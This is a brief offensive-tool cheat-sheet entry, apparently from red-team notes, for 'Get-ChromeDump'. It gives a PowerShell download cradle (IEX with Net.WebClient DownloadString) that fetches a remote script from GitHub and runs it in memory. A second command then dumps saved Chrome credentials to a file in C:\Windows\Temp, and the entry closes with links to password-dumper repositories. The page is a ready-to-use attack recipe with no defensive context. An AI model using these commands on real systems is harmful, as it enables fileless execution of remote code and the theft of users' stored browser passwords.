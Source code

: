 # Get-ChromeDump

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/leechristensen/Random/master/PowerShellScripts/Get-ChromeDump.ps1')
```

Dump the saved credentails.

```
PS C:\> Get-ChromeDump -OutFile "C:\Windows\Temp\chrome_credentials.txt"
```

---
## References

### Source Repositories

- [leechristensen: Get-ChromeDump](https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-ChromeDump.ps1)

- [roflsandwich: Chrome Password Dumper](https://github.com/roflsandwich/Chrome-Password-Dumper)